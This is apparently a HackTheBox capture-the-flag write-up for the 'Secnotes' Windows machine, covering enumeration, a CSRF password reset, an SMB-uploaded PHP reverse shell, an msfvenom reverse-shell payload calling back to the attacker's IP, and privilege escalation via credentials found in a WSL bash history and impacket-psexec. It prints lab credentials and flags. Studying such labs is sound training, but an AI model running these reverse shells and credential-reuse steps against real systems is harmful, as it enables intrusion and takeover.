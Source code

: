```yaml
---
title: "Secnotes"
date: 2025-05-18
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Secnotes

![](../assets/Pasted%20image%2020250518205226.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.97
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:52 CEST
Nmap scan report for 10.10.10.97
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-05-18T11:53:40-07:00
| smb2-time: 
|   date: 2025-05-18T18:53:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h20m00s, deviation: 4h02m29s, median: 0s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   40.63 ms 10.10.14.1
2   41.14 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.61 seconds
```

`Port` `8808` shows the default `IIS` site and `port` `80` shows a login form.

![](../assets/Pasted%20image%2020250518205616.png)

Create an account and log in.

![](../assets/Pasted%20image%2020250518205947.png)

There is a user named `tyler` that we can contact, and there is no protection against `XSS` when creating a note.

When changing the password, the request is also processed with `GET`, so we could send the request to change the password in the contact text with an `XSS`.

![](../assets/Pasted%20image%2020250518235204.png)

`XSS` is not needed, only send the URL and enter as `tyler` with the new password.

![](../assets/Pasted%20image%2020250518235302.png)

`tyler:92g!mA8BGjOirkL%OG*&`

Checking credentials and shares, we see that the user can write in a share.

![](../assets/Pasted%20image%2020250518235608.png)

## Initial Access

This is the root folder for `IIS`, so we can upload an `aspx`, `asp`, `config`, or `php` reverse shell.

Get a `PHP` rev shell and put it in the folder, start the listener, and browse the page.


```shell
$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //secnotes.htb/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (70.3 kb/s) (average 70.3 kb/s)
```


```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 49913
SOCKET: Shell has connected! PID: 4448
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite
```

The shell was unstable, so I put a web shell to get an `msfvenom` reverse shell.

![](../assets/Pasted%20image%2020250519002132.png)

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=80 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

smb: \> put reverse.exe
putting file reverse.exe as \reverse.exe (56.0 kb/s) (average 29.5 kb/s)
```


![](../assets/Pasted%20image%2020250519002346.png)

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 50262
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

Get the flag:

```shell
C:\Users\tyler\Desktop>type user.txt
type user.txt
3e39543df04f653c45220f80fed60766
```

## Privilege Escalation

Transfer `winPEAS` and find that `WSL` and `Ubuntu` are installed.

![](../assets/Pasted%20image%2020250519005409.png)

Go to the root folder of the distro and search `root`'s history.

```shell
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

![](../assets/Pasted%20image%2020250519010931.png)

```shell
$ impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@secnotes.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on secnotes.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JstWrSBE.exe
[*] Opening SVCManager on secnotes.htb.....
[*] Creating service ldar on secnotes.htb.....
[*] Starting service ldar.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop> type root.txt
13193dc2dd40a8c4f431cb347f764f2c
```
